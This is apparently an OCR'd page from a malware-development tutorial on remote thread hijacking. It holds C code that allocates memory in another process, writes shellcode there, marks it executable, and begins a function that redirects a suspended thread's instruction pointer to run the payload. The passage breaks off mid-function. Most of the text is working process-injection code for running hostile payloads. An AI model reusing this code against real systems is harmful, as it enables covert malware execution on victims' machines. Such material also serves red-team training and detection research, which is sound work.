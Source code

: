```c
BOOL InjectShellcodeToRemoteProcess (IN HANDLE hProcess, IN PBYTE pShellcode, IN SIZE_T sSizeOfShellcode, OUT PVOID* ppAddress) {


	SIZE_T  sNumberOfBytesWritten    = NULL;
	DWORD   dwOldProtection          = NULL;


	*ppAddress = VirtualAllocEx(hProcess, NULL, sSizeOfShellcode, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (*ppAddress == NULL) {
		printf("\n\t[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	printf("[i] Allocated Memory At : 0x%p \n", *ppAddress);


	if (!WriteProcessMemory(hProcess, *ppAddress, pShellcode, sSizeOfShellcode, &sNumberOfBytesWritten) || sNumberOfBytesWritten != sSizeOfShellcode) {
		printf("\n\t[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
		return FALSE;
	}


	if (!VirtualProtectEx(hProcess, *ppAddress, sSizeOfShellcode, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("\n\t[!] VirtualProtectEx Failed With Error : %d \n", GetLastError());
		return FALSE;
	}


	return TRUE;
}

```

### Remote Thread Hijacking Function

After creating the suspended process and writing the payload to the remote process, the final step is to use the thread handle which was returned by `CreateSuspendedProcess` to perform thread hijacking. This part is the same as the one demonstrated in the local thread hijacking module.

To recap, `GetThreadContext` is used to retrieve the thread's context, update the `RIP` register to point to the written payload, call `SetThreadContext` to update the thread's context and finally use `ResumeThread` to execute the payload. All of this is demonstrated in the custom function below, `HijackThread`, which takes two arguments:

- `hThread` - The thread to hijack.
    
- `pAddress` - A pointer to the base address of the payload to be executed.
    

```c
BOOL HijackThread (IN HANDLE hThread, IN PVOID pAddress) {

	CONTEXT	ThreadCtx = {
		.ContextFlags = CONTEXT_CONTROL
	};

	// getting the original thread context
	if (!GetThreadContext(hThread, &ThreadCtx)) {
		printf("\n\t[!] GetThreadContext Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

 	// updating the next instruction pointer to be equal to our shellcode's address 
```